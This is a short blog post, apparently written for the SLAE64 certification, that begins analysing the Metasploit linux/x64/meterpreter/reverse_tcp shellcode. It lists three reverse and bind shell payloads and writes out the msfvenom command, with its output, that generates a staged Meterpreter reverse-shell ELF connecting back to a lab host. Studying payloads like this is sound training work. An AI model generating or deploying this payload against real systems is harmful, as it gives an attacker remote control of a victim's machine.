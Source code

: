 Title: SLAE64 - Assignment 5.1
Date: 2022-06-25T08:00:24.000Z


## Disclaimer


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert Certification:

[https://www.pentesteracademy.com/course?id=7](https://www.pentesteracademy.com/course?id=7)

Student ID: PA-30398

## Analysis

For the fifth assignment, I decided to analyze the following shellcode samples:

<table>
<thead>
<tr>
<th>Name</th>
<th>Description</th>
</tr>
</thead>
<tbody>
<tr>
<td>linux/x64/meterpreter/reverse_tcp</td>
<td>Inject the mettle server payload (staged). Connect back to the attacker</td>
</tr>
<tr>
<td>linux/x64/pingback_reverse_tcp</td>
<td>Connect back to attacker and report UUID (Linux x64)</td>
</tr>
<tr>
<td>linux/x64/shell_bind_ipv6_tcp</td>
<td>Listen for an IPv6 connection and spawn a command shell</td>
</tr>
</tbody>
</table>

This post focuses on the first one, `linux/x64/meterpreter/reverse_tcp`.

Let's start from the very beginning i.e., generating the shellcode, which you can do by using the the `ruby` script `msfvenom` available by default on Kali Linux distributions.

Below is the command I ran to generate the shellcode:

```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.1.170 LPORT=443 -f elf -o shellcode
# [-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
# [-] No arch selected, selecting arch: x64 from the payload
# No encoder specified, outputting raw payload
# Payload size: 130 bytes
# Final size of elf file: 250 bytes
# Saved as: shellcode
```
